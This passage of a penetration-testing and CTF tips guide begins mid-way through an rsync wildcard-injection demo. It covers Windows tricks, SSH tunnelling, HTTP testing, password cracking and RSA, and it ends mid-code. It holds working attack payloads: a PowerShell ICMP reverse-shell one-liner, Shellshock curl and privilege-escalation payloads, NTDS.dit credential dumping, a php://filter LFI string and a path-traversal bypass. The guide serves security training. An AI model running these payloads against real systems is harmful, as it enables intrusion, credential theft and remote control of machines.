    -rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

Now root will try to copy all C files to the remote server.

:: 

    [root@defensecode public]# rsync -t *.c foo:src/

    rsync: connection unexpectedly closed (0 bytes received so far) [sender]
    rsync error: error in rsync protocol data stream (code 12) at io.c(601) [sender=3.0.8]

Let's see what happened...

:: 

    [root@defensecode public]# ls -al
    total 76
    drwxrwxrwx.  2 user user  4096 Mar 28 04:49 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
    -rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
    -rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
    -rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
    -rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
    -rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
    -rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

There were two files owned by user 'leon', as listed below.

:: 

    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

After 'rsync' execution, new file shell\_output.txt whose owner is root is created in same directory.

:: 

    -rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

If we check its content, following data is found.

:: 

    [root@defensecode public]# cat shell_output.txt
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

Trick is that because of the '\*.c' wildcard, 'rsync' got '-e sh shell.c' option on command line, and shell.c will be executed upon'rsync' start. Content of shell.c is presented below.

:: 

    [root@defensecode public]# cat shell.c
    /usr/bin/id > shell_output.txt


.. _tips-and-tricks:

Tips and Tricks
===============

Windows
-------

Get-ChildItem Mode Values
^^^^^^^^^^^^^^^^^^^^^^^^^

'Mode' values returned by PowerShell's Get-ChildItem cmdlet?

::

 PS> gci|select mode,attributes -u

 Mode                Attributes
 ----                ----------
 d-----               Directory
 d-r---     ReadOnly, Directory
 d----l Directory, ReparsePoint
 -a----                 Archive

In any case, the full list is:

::

 d - Directory
 a - Archive
 r - Read-only
 h - Hidden
 s - System
 l - Reparse point, symlink, etc.

Zip or unzip using ONLY Windows' built-in capabilities? 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Powershell way

::

 Add-Type -A System.IO.Compression.FileSystem
 [IO.Compression.ZipFile]::CreateFromDirectory('foo', 'foo.zip')
 [IO.Compression.ZipFile]::ExtractToDirectory('foo.zip', 'bar')

Alternate Data Stream
^^^^^^^^^^^^^^^^^^^^^
Sometimes, `Alternate Data Stream <https://blogs.technet.microsoft.com/askcore/2013/03/24/alternate-data-streams-in-ntfs/>`_ can be used to hide data in streams.

The output shows not only the name of the ADS and its size, but also the unnamed data stream and its size is also listed (shown as :$DATA).

Powershell-Way

::

 PS > Get-Item -Path C:\Users\Administrator\example.zip -stream *

 Filename: C:\Users\Administrator\example.zip

 Stream             Length
 ------             -------
 :$DATA             8
 pass.txt           4

Now, we know the name of the ADS, We can use the Get-Content cmdlet to query its contents.

::

 Get-Content -Path C:\Users\Administrator\example.zip -Stream pass.txt
 The password is Passw0rd!

Check a directory for ADS?

::

 gci -recurse | % { gi $_.FullName -stream * } | where stream -ne ':$Data'

DIR Way

Current directory ADS Streams

::

 dir /r | find ":$DATA"

Sub-directories too

::

 dir   /s /r | find ":$DATA"

Reading the hidden stream

::

 more < testfile.txt:hidden_stream::$DATA

We may also utilze `List Alternate Data Streams <https://github.com/codejanus/ToolSuite/blob/master/lads.exe>`_ LADS tool to figure out Alternate Data Streams.

Redirecting Standard Out and Standard Error from PowerShell Start-Process
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Often reverse shells will not display standard error. Sometimes they will not display standard out when a new process is started. The following will redirect standard out and standard error to text files when PowerShell starts a new process.

::

 PS C:\> Start-Process -FilePath C:\users\administrator\foo.txt -NoNewWindow -PassThru -Wait -RedirectStandardOutput stdout.txt -RedirectStandardError stderr.txt

`Powershell Start-Process Module Documentation <https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process>`_.


NTDS.dit and SYSTEM hive
^^^^^^^^^^^^^^^^^^^^^^^^^

If you have found files such as 

::

 IP_psexec.ntdsgrab._333512.dit: Extensible storage engine DataBase, version 0x620, checksum 0x16d44752, page size 8192, DirtyShutdown, Windows version 6.1
 IP_psexec.ntdsgrab._089134.bin: MS Windows registry file, NT/2000 or above

Probably, there are dump of domain controller NTDS.dit file, from which passwords can be extracted. Utilize,

::

 python secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL

ICMP Shell
^^^^^^^^^^

Sometimes, inbound and outbound traffic from any port is disallowed and only ICMP traffic is allowed. In that case, we can use `Simple reverse ICMP Shell <https://github.com/inquisb/icmpsh>`_ However, this requires the executable to be present on the system. There's a powershell version of `ICMP Reverse Shell <https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1>`_ Sometimes, probably, we can execute powershell code on the machine. In that case, we can use the one-liner powershell code to execute the shell.

::

 powershell -nop -c "$ip='your_ip'; $ic = New-Object System.Net.NetworkInformation.Ping; $po = New-Object System.Net.NetworkInformation.PingOptions; $po.DontFragment = $true; $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes('OK'), $po); while ($true) { $ry = $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes(''), $po); if ($ry.Buffer) { $rs = ([text.encoding]::ASCII).GetString($ry.Buffer); $rt = (Invoke-Expression -Command $rs | Out-String ); $ic.Send($ip,60*1000,([text.encoding]::ASCII).GetBytes($rt),$po); } }"


The above code is basically a reduced version of the powershell version of ICMP and have a limited buffer (which means commands whose output is greater than the buffer, won't be displayed!). Now, there's a painful way of transferring files to the victim system which is

* Convert the file/ code which needs to be transferred in to base64. (If possible, remove all the unnecessary code/ comments, this would help us to reduce the length of the base64). Do make sure that your base64 when converted back is correct! Refer `PowerShell –EncodedCommand and Round-Trips <https://blogs.msdn.microsoft.com/timid/2014/03/26/powershell-encodedcommand-and-round-trips/>`_
* Utilize the `Add-Content cmdlet <https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/add-content?view=powershell-5.1>`_ to transfer the file to the victim system. Do, remember to transfer the data in chunks as we have limited buffer! Probably, we have to run the below command twice or thrice to transfer the whole base64-encoded chunk.
 
 ::
  
  Add-Content <filename> "Base64 encoded content"

* Once the base64-encoded data is transferred, we can utilize `certutil <https://technet.microsoft.com/en-us/library/cc732443(v=ws.11).aspx>`_ from Microsoft to decode the base64-encoded to normal file.

 ::

  certutil <-decode/ -encode> <input file> <output file>
  -decode Decode a Base64-encoded file
  -encode Encode a file to Base64

* Now, we can execute the file (assuming powershell ps1 file) to get the full powershell ICMP reverse shell with buffer management so, we would be able to get full output of the commands.

* Now, most of the time after getting the intial shell, probably, we would have figured out user credentials ( let's say from www-data or iisapppool user to normal/ admin user credentials. ) At this point of time, we can use the below code to create a PSCredential.

 ::

  $username = 'UsernameHere';
  $password = 'PasswordHere';
  $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
  $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword 

* Once, we have created a PSCredential, we can use `Invoke-Command <https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command>`_  to execute command as that user.

  ::
   
   Invoke-Command -ComputerName localhost -Credential $credential -ScriptBlock {Command to be executed}
   -ComputerName localhost is required as the code is to be executed on localhost, without -ComputerName, InvokeCommand doesn't work.

* Possibly, we can execute the ICMP Shell code to get the shell as the new user.

* One problem, which we gonna face is, when we are running ICMP Shell with different users for example, first with IISWebpool, then with User1, then with user2, we would get multple times IISWebpool as that powershell process (on UDP) is still running. One way to this is Just before launching a new ICMP shell as a different user. 
  
  * Check powershell processes with Show-Process

   ::

    Show-Process -Name *power* "
  
  *  Note down  the PID 
  * Execute shell as the different user 
  * Stop-Process the previous PID

Recovering password from System.Security.SecureString
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If we have windows credentials stored as System.Security.SecureString, we can use

::

 $BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($SecurePassword)
 $UnsecurePassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)

or 

::

 $UnsecurePassword = (New-Object PSCredential "user",$SecurePassword).GetNetworkCredential().Password

Example:

::

 PS> $PlainPassword = Read-Host -AsSecureString  "Enter password"
 PS> Enter password: ***
 PS> $PlainPassword
 PS> System.Security.SecureString
 PS> $UnsecurePassword1 = (New-Object PSCredential "user",$PlainPassword).GetNetworkCredential().Password
 PS> $UnsecurePassword1
 PS> yum

Copy To or From a PowerShell Session
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

This is a awesome feature to copy files from different computers on which we have a WinRM or Remote PS Session. Directly taken from `Copy To or From a PowerShell Session <https://blogs.technet.microsoft.com/poshchap/2015/10/30/copy-to-or-from-a-powershell-session/>`_

* Copy Local files to a remote session :
 
 ::

  ##Initialize the session
  $TargetSession = New-PSSession -ComputerName HALOMEM03

  ##  Copy Files from Local session to remote session
  Copy-Item -ToSession $TargetSession -Path "C:\Users\Administrator\desktop\scripts\" -Destination "C:\Users\administrator.HALO\desktop\" -Recurse

* Copy some files from a remote session to the local server:

  ::

   ## Create the session
   $SourceSession = New-PSSession -ComputerName HALODC01

   ## Copy from Remote machine to Local machine
   Copy-Item -FromSession $SourceSession -Path "C:\Users\Administrator\desktop\scripts\" -Destination "C:\Users\administrator\desktop\" -Recurse

Get-Hash
^^^^^^^^

`Get-FileHash <https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/get-filehash>`_ Computes the hash value for a file by using a specified hash algorithm.

::

 PS > Get-FileHash Hello.rst                                                                                                                                                        

 Algorithm       Hash                                                                   Path                                                                                                                                                                            
 ---------       ----                                                                   ----                                                                                                                                                                            
 SHA256          8A7D37867537DB78A74A473792928F14EDCB3948B9EB11A48D6DE38B3DD30EEC       /tmp/Hello.rst                                                                                   

Active Directory Enumeration and Remote Code Execution
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Probably, refer  :doc:`LFF-IPS-P3-Exploitation`

It contains

* Active Directory Reconnaissance : Information about active directory enumeration with Domain User rights by various methods such as rpclient, enum4linux, nltest, netdom, powerview, bloodhound, adexplorer, Jexplorer, Remote Server Administration Tools, Microsoft Active Directory Topology Diagrammer, reconnaissance using powershell, powershell adsisearcher etc.
* Remote Code Execution Methods : Information about multiple ways to get a execute remote commands on the remote machine such winexe, crackmapexec, impacket psexec, smbexec, wmiexec, Metasploit psexec, Sysinternals psexec, task scheduler, scheduled tasks, service controller (sc), remote registry, WinRM, WMI, DCOM, Mimikatz Pass the hash/ Pass the ticket, remote desktop etc.

Others
^^^^^^

* Invoking Net Use using Credentials to mount remote system

 The below example executes command on file.bitvijays.local computer with Domain Administrator credentials and utilizes net use to mount Domain Controller C Drive and read a particular file
 ::

   Invoke-Command -ComputerName file.bitvijays.local -Credential $credential -ScriptBlock {net use x: \\dc.bitvijays.local\C$ /user:bitvijays.local\domainadministrator_user DA_Passw0rd!; type x:\users\administrator\desktop\imp.txt}


Wget
----

FTP via Wget
^^^^^^^^^^^^

If ftp anonymous login is provided or you have login details, you can download the contents by wget, (For anonymous login user password are not required)

::

  wget -rq ftp://IP --ftp-user=username --ftp-password=password

wgetrc Commands
^^^^^^^^^^^^^^^

::

 output_document = file -- Set the output filename—the same as ‘-O file’.
 post_data = string -- Use POST as the method for all HTTP requests and send string in the request body. The same as ‘--post-data=string’.
 post_file = file   -- Use POST as the method for all HTTP requests and send the contents of file in the request body. The same as ‘--post-file=file’.
 -P prefix
 --directory-prefix=prefix
   Set directory prefix to prefix.  The directory prefix is the directory where all other files and subdirectories will be saved to, i.e. the top of the retrieval tree.  The default is . (the current directory).

Tricks
^^^^^^

* The interesting part with -P Parameter is you can save the file in /tmp if your current directory is /. Let me explain, Let's say, your current directory is /home/user/ if we do

 ::

  wget IPAddress -P tmp

 it would create a tmp folder in the /home/user/ and save the file in that. However, if you current directory is /, it would save the file in /tmp folder, from where you can execute stuff.

* wget accepts IP address in decimal format

* wget shortens the filename if it's too long. For example, if you provide a filename to the wget which is very long (i.e around 255 character), wget might shorten it. This might be helpful in cases where only a jpg file is allowed to be uploaded, however as wget shortens it, we may try aaaaaaaaaaaa (*255/ somenumber).php.jpg and wget shortens it to aaaaaaa(*255).php

SSH
---

ssh_config
^^^^^^^^^^
If you know the password of the user, however, ssh is not allowing you to login, check ssh_config.

::

   ## Tighten security after security incident 
   ## root never gets to log in remotely PermitRootLogin no 
   ## Eugene & Margo can SSH in, no-one else allowed 
   AllowUsers example_user1 example_user2 
   ## SSH keys only but example_user1 can use a password 
   Match user example_user1 
   PasswordAuthentication yes 	
   ## End tighten security

SSH Tunneling
-------------

SSH protocol, which supports bi-directional communication channels can create encrypted tunnels.

Local Port Forwarding
^^^^^^^^^^^^^^^^^^^^^

SSH local port forwarding allows us to tunnel a local port to a remote server, using SSH as the transport protocol.

::

 ssh sshserver -L <local port to listen>:<remote host>:<remote port>

Example: 

Imagine we’re on a private network which doesn’t allow connections to a specific server. Let’s say you’re at work and youtube is being blocked. To get around this we can create a tunnel through a server which isn’t on our network and thus can access Youtube.

::

 $ ssh -L 9000:imgur.com:80 user@example.com

The key here is -L which says we’re doing local port forwarding. Then it says we’re forwarding our local port 9000 to youtube.com:80, which is the default port for HTTP. Now open your browser and go to http://localhost:9000

**Syntax**

::

     -L [bind_address:]port:host:hostport
     -L [bind_address:]port:remote_socket
     -L local_socket:host:hostport
     -L local_socket:remote_socket
             Specifies that connections to the given TCP port or Unix socket on the local (client) host are to be forwarded to the given host and port, or Unix socket, on the remote side.  This works by allocating a socket to listen to either a TCP port on
             the local side, optionally bound to the specified bind_address, or to a Unix socket.  Whenever a connection is made to the local port or socket, the connection is forwarded over the secure channel, and a connection is made to either host port
             hostport, or the Unix socket remote_socket, from the remote machine.

             Port forwardings can also be specified in the configuration file.  Only the superuser can forward privileged ports.  IPv6 addresses can be specified by enclosing the address in square brackets.

             By default, the local port is bound in accordance with the GatewayPorts setting.  However, an explicit bind_address may be used to bind the connection to a specific address.  The bind_address of “localhost” indicates that the listening port be
             bound for local use only, while an empty address or ‘*’ indicates that the port should be available from all interfaces.


To share a interesting case, Let's say there's a host which is running port 22 on all interfaces and port 8080 and 8081 (or any other port) on local loopback interface (127.0.0.1), something like

::

 tcp4       0      0 *.ssh                  *.*                    LISTEN
 tcp6       0      0 *.ssh                  *.*                    LISTEN
 tcp4       0      0 localhost.8080         *.*                    LISTEN
 tcp4       0      0 localhost.8081         *.*                    LISTEN

Now, webserver on port 8080 and 8081 are running on localhost, if we have ssh access to the machine, we can tunnel them via local port forwarding and run it on the ethernet interface.

::

 ssh -L IP_Address_of_Machine:<Port-which-we-want-to-open-Let's say-9000>:127.0.0.1:<localhost-port-which-we-want-to-map-let's-say-8080> user@IP_Address_of_Machine

It would become

::

 ssh -L 10.10.10.10:9000:127.0.0.1:8080 user@10.10.10.10 and
 ssh -L 10.10.10.10:9001:127.0.0.1:8081 user@10.10.10.10

The above would open port 9000 and 9001 (on the external interface) and map it to port 8080 and 8081(which were running on local/ loopback interface). 


Remote Port Forwarding
^^^^^^^^^^^^^^^^^^^^^^

SSH remote port forwarding allows us to tunnel a remote port to a local server.

::

 ssh sshserver -R <remote port to bind>:<local host>:<local port>

Example:

Let's say there's a wordpress web-application we have compromised and have a www-data shell. Also, let's say, we are inside a docker environment with the network below

::

 172.16.0.1 Host-Machine
 172.16.0.2 WordPress
 172.16.0.3 Joomla
 172.16.0.4 Mysql

Now, Let's say, we have root credentials of mysql and want to access it using dbeaver application. Now, as we have access of wordpress machine, we can basically ssh to our machine (Let's say our IP is 10.10.15.111), creating a Remote Port Forward

::

 ssh bitvijays@10.10.15.111 -R 3306:172.16.0.4:3306

The above would create a ssh tunnel between 10.10.15.111:3306 and 172.16.0.4:3306. Then, we would be able to just launch dbeaver and connect to localhost mysql and browse the database at 172.16.0.4:3306.

As we would be probably inside the docker and www-data user, we might not have ssh binary and proper environment variable in that case, we can add below options

::

 ./ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -o GlobalKnownHostsFile=/dev/null -v -i id_rsa -R 3306:172.16.0.4:3306 -fN bitvijays@10.10.15.111

SSH as SOCKS Proxy
^^^^^^^^^^^^^^^^^^
We can use ssh to have a socks proxy to connect to vnc, ssh, rdp if vm is hosting in another vm and then use remmina to access VNC.

:: 

  ssh -D localhost:9050 user@host

  -D [bind_address:]port Specifies a local “dynamic” application-level port forwarding.  This works by allocating a socket to listen to port on the local side, optionally bound to the specified bind_address.  Whenever a connection is made to this port, the connection is forwarded over the secure channel, and the application protocol is then used to determine where to connect to from the remote machine.  Currently the SOCKS4 and SOCKS5 protocols are supported, and ssh will act as a SOCKS server.  Only root can forward privileged ports. Dynamic port forwardings can also be specified in the configuration file.

and 
	
:: 
	
  proxychains4 remmina/ rdesktop

.. If we have to share a interesting story with you, Recently, We were assigned a engagment to compromise a industrial plant. Let us walkthru what's the scenario.
   Scenario:
   * Attacker IP Network : 172.40.60.0/22; Attacker Current IP: 172.40.60.55 and Targetted IP: 172.16.96.2 (Possible SCADA Network - Natted IP)
   * As it's a industrial plant, there's a firewall between IT Network (172.40.60.0/22) and SCADA Network (Possible IP 172.16.96.2 -- This is NATTed IP)

Plink
-----

Plink is a windows command-line connection tool similar to UNIX ssh. 

::

 plink
 Plink: command-line connection utility
 Release 0.68
 Usage: plink [options] [user@]host [command]
       ("host" can also be a PuTTY saved session name)
 Options:
  -V        print version information and exit
  -v        show verbose messages
  -load sessname  Load settings from saved session
  -ssh -telnet -rlogin -raw -serial
            force use of a particular protocol
  -P port   connect to specified port
  -l user   connect with specified username
 The following options only apply to SSH connections:
  -pw passw login with specified password
  -D [listen-IP:]listen-port
            Dynamic SOCKS-based port forwarding
  -L [listen-IP:]listen-port:host:port
            Forward local port to remote address
  -R [listen-IP:]listen-port:host:port
            Forward remote port to local address
  -X -x     enable / disable X11 forwarding
  -A -a     enable / disable agent forwarding
  -t -T     enable / disable pty allocation
  -C        enable compression
  -i key    private key file for user authentication
  -m file   read remote command(s) from file
  -N        don't start a shell/command (SSH-2 only)
  -nc host:port
            open tunnel in place of session (SSH-2 only)

It can also be used to perform SSH tunnelling, have a look at -L, -R and -D options. On Kali Linux box it is present at /usr/share/windows-binaries/plink.exe

HTTP
----

First things
^^^^^^^^^^^^

* View Source of the web-page (Ctrl+U).
* Inspect element of the web-page (F12).
* See if there is any hint in the title of the web page. (example: /Magic).
* Check the scroll button! Sometimes, there are too many lines and something hidden in the end of the webpage!
* Check for any long file names such admin_5f4dcc3b5aa765d61d8327deb882cf99.txt; Such long names can be base64-encoded, hex, md5 etc.
* If any login page is implemented asking for username and password. Check how it is implemented? Is it using any open-source authentication modules? If so, look if there are any default passwords for that.
* If there's a page where redirect is happening (for example, http://example.com or http://example.com/support.php redirects us to http://example.com/login.php) However, the response size for example.com or support.php is a bit off, especially considering the page gives a 302 redirect. We may use No-redirect extension from firefox and view the page. We may also utilize curl/ burp to view the response.
* `List of HTTP Headers <https://en.wikipedia.org/wiki/List_of_HTTP_header_fields>`_ : Quite important when you want to set headers/ cookies etc.
* Watch for places where the site redirects you (it adds something to the URL and displays the homepage). If you see that happen, try adjusting the URL manually. for example: 
  when browsing 

 ::

   http://IPAddress/SitePages/

 it redirects to 

 :: 

  http://IPAddress/_layouts/15/start.aspx#/SitePages/Forms/AllPages.aspx

 we may find something by adjusting the URL manually to 

 ::

  http://IPAddress/SitePages/Forms/AllPages.aspx


CSC Austria: CTF Tips and Tricks
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Refer `SEC Consult – Cyber Security Challenge Austria /CTF Tips & Tricks <https://security-hub.at/download/csc_austria_ctf_tips_and_tricks.pdf>`_

* Read the source code / comments
* Check for common hidden files / folders (.git, .ssh, robots.txt, backup, .DS_Store, .svn, changelog.txt, server-status, admin, administrator, …)
* Check for common extensions (Example: If you see a index.php file, check index.php.tmp, index.php.bak, and so on)
* Play with the URL / parameters / cookies (Example: If you have a page with index.php?role=user try to change it to index.php?role=admin).
* Get familiar with the website, it’s functionalities and features before starting an in-depth analysis.
* Try to map the full attack-surface of the website! Some vulnerabilities are hidden deep in hard-to-reach functionalities.
* Test for the most common vulnerabilities like SQLi (SQL Injection), XXE (XML Entity Injection), Path Traversal, File Uploads, Command Injection, Cookie Tampering, XSS (Cross-Site-Scripting), XPATH Injection, Unserialization bugs, Outdated software, CSRF 
  (Cross-Site-Request-Forgery), SSRF (Server-Side-Request-Forgery), SSTI (Server-Side Template Injection), LFI/RFI (Local-File-Inclusion / Remote-File-Inclusion), Flaws in Session Management or Authorization Flaws, the randomness of the cookies, and so on.
* If you come across a technology which you don’t know, try to google security writeups for these technologies.
* Try special characters 
  ::
  
    (‘, “, {, ;, |, &&, \, /, !(), %…) 
    
 in all input fields (GET- and POST parameters and Cookies) and check for uncommon responses or error messages.
* To detect blind vulnerabilities (SQL injection, command injection, XSS, …) you can use time delays or requests to one of your web servers (check the access logs).
* If you can provide a path or a filename to the website, you should test for path traversal vulnerabilities. If the application replaces the 
  ::
   
   “../” 
 with an empty string, you can try to bypass it by injecting the sequence two times, like: 
 ::
 
  “…/./”. 
  
 If the “../” in the center gets replaced, the application will again work with “../”. You can also try different encodings or other removed characters. Moreover, you can try to create or upload (e.g. via archives) a symbolic link.
* If you found a LFI (local-file-inclusion) vulnerability in a PHP website and you want to read the PHP scripts, you can use php-filter (you can’t normally read .php files because the inclusion would try to execute the code instead of displaying it; 
  with php-filter you can first base64-encode the content to display it): 

 ::
 
  index.php?filename=php://filter/convert.base64-encode/resource=index.php

htaccess - UserAgent
^^^^^^^^^^^^^^^^^^^^
When you see something like this "Someone's sup3r s3cr3t dr0pb0x - only me and Steve Jobs can see this content". Which says, only this can see me. Try to see what user-agent it is talking about. The way it is implemented is by use of .htaccess file

:: 

   cat .htaccess 
   BrowserMatchNoCase "iPhone" allowed

   Order Deny,Allow 
   Deny from ALL 
   Allow from env=allowed 
   ErrorDocument 403 “<H1>Super secret location - only me and Steve Jobs can see this content</H1><H2>Lol</H2>”

CGI-BIN Shellshock
^^^^^^^^^^^^^^^^^^
To understand shellshock few blogs can be referred such as `ShellShocked – A quick demo of how easy it is to exploit <https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit/>`_ , `Inside Shellshock: How hackers are using it to exploit systems <https://blog.cloudflare.com/inside-shellshock/>`_

::

  curl -H "User-Agent: () { :; }; echo 'Content-type: text/html'; echo; /bin/cat /etc/passwd" http://192.168.56.2:591/cgi-bin/cat

It is important to understand what is cgi-bin which can be read from `Creating CGI Programs with Bash: Getting Started <http://www.team2053.org/docs/bashcgi/gettingstarted.html>`_ . Also the most important lines in this file are:

::

  echo "Content-type: text/html"
  echo ""
 
These two lines tell your browser that the rest of the content coming from the program is HTML, and should be treated as such. Leaving these lines out will often cause your browser to download the output of the program to disk as a text file instead of displaying it, since it doesn't understand that it is HTML!

**Shellshock Local Privilege Escalation**

Binaries with a setuid bit and calling (directly or indirectly) bash through execve, popen or system are tools which may be used to activate the Shell Shock bug.

::

  sudo PS1="() { :;} ;  /bin/sh" /home/username/suidbinary

Shellshock also affects DHCP as mentioned `Shellshock DHCP RCE Proof of Concept <https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/>`_ There's a metasploit module named "Dhclient Bash Environment Variable Injection (Shellshock)" for this.

XSS/ HTML Injection
^^^^^^^^^^^^^^^^^^^

The below will redirect the page to google.com

::
 
  <META http-equiv=“refresh” content=“0;URL=http://www.google.com”>

curl
^^^^

:: 

    -k, --insecure
    (SSL) This option explicitly allows curl to perform "insecure" SSL connections and transfers. All SSL connections are attempted to be made secure by using the CA certificate  bundle  installed  by  default.
    This makes all connections considered "insecure" fail unless -k, --insecure is used.

    -I, --head
    (HTTP/FTP/FILE) Fetch the HTTP-header only! HTTP-servers feature the command HEAD which this uses to get nothing but the header of a document. When used on an FTP or FILE file, curl displays the  file  size and last modification time only.

HTTP Referer
^^^^^^^^^^^^

The Referer request header contains the address of the previous web page from which a link to the currently requested page was followed. The Referer header allows servers to identify where people are visiting them from and may use that data for analytics, logging, or optimized caching.

::
   
  Referer: <url>

  <url> An absolute or partial address of the previous web page from which a link to the currently requested page was followed. URL fragments (i.e. "#section") are not included.

Data-URI
^^^^^^^^^
`Basics of HTTP Data URI <https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics\_of\_HTTP/Data\_URIs>`_

Login-Pages
^^^^^^^^^^^
To test login pages, we may use burpsuite intruder and check for different length of response.

Delete Tags
^^^^^^^^^^^
Delete all lines between tags including tags:

::
   
  sed '/<tag>/,/<\/tag>/d' input.txt

.. Tip :: Useful when you are accessing the webpage using curl and their LFI and you want to remove the html/ body tags.

HTTP 404 Custom Page
^^^^^^^^^^^^^^^^^^^^
Sometimes, it's a good idea to look at 404 custom page also. There might be some information stored.

Password Protected File
------------------------
	  
ZIP File
^^^^^^^^

run fcrackzip

:: 

    fcrackzip -D -u -p /tmp/rockyou2.txt flag.zip

    -D, --dictionary:    Select dictionary mode. In this mode, fcrackzip will read passwords from a file, which must contain one password per line and should be alphabetically sorted (e.g. using sort(1)).
    -p, --init-password string :  Set initial (starting) password for brute-force searching to string, or use the file with the name string to supply passwords for dictionary searching.
    -u, --use-unzip: Try to decompress the first file by calling unzip with the guessed password. This weeds out false positives when not enough files have been given.

rar2john
^^^^^^^^
We can get the password hash of a password protected rar file by using rar2john

:: 

    [root:~/Downloads]# rar2john crocs.rar
    file name: artwork.jpg
    crocs.rar:$RAR3$*1*35c0eaaed4c9efb9*463323be*140272*187245*0*crocs.rar*76*35:1::artwork.jpg

keepass2john
^^^^^^^^^^^^

::

 keepass2john user.kdbx 
 user:$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da

::

 john --wordlist wordlist --format=keepass hashfile

There are other \*2john thingy

::

 dmg2john
 gpg2john
 hccap2john
 keepass2john
 keychain2john
 keyring2john
 keystore2john
 kwallet2john
 luks2john
 pfx2john
 putty2john
 pwsafe2john
 racf2john
 rar2john
 ssh2john
 truecrypt_volume2john
 uaf2john
 wpapcap2john
 zip2john


Encrypted Files
---------------

Many times during the challenges, we do find encrypted files encrypted by Symmetric key encryption or RSA Public-Private Key encryption

Symmetric Key
^^^^^^^^^^^^^

If we have the encrypted file and the key to it. However, we don't know the encryption scheme such as aes-128-cbc, des-cbc.

We can use the code written by superkojiman in `De-ICE Hacking Challenge Part-1 <https://blog.techorganic.com/2011/07/19/de-ice-hacking-challenge-part-1/>`_ , it would tell you what encryption scheme is used and then we can run the command to retrieve the plaintext.

::

 ciphers=`openssl list-cipher-commands`
 for i in $ciphers; do
  openssl enc -d -${i} -in <encrypted-file> -k <password/ keyfile> > /dev/null 2>&1
  if [[ $? -eq 0 ]]; then
   echo "Cipher is $i: openssl enc -d -${i} -in <encrypted-file> -k <password/ keyfile> -out foo.txt"
   exit
  fi
 done

RSA Public-Private Key encryption
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If we have found a weak RSA public, we can use `RsaCtfTool <https://github.com/Ganapati/RsaCtfTool>`_ uncipher data from weak public key and try to recover private key and then use 

::

 openssl rsautl -decrypt -inkey privatekey.pem -in <encryptedfile> -out key.bin 

The ciphertext should be in binary format for RsaCtfTool to work. If you have your ciphertext in hex, for example

::

 5e14f2c53cbc04b82a35414dc670a8a474ee0021349f280bfef215e23d40601a

Convert it in to binary using

::

 xxd -r -p ciphertext > ciphertext3


RSA given q, p and e?
^^^^^^^^^^^^^^^^^^^^^

Taken from `RSA Given q,p and e <https://crypto.stackexchange.com/questions/19444/rsa-given-q-p-and-e>`_

::

 def egcd(a, b):
    x,y, u,v = 0,1, 1,0
    while a != 0:
        q, r = b//a, b%a
        m, n = x-u*q, y-v*q
        b,a, x,y, u,v = a,r, u,v, m,n
        gcd = b
    return gcd, x, y

 def main():

    p = 1090660992520643446103273789680343
    q = 1162435056374824133712043309728653
    e = 65537
    ct = 299604539773691895576847697095098784338054746292313044353582078965

    # compute n
    n = p * q

    # Compute phi(n)
    phi = (p - 1) * (q - 1)

    # Compute modular inverse of e
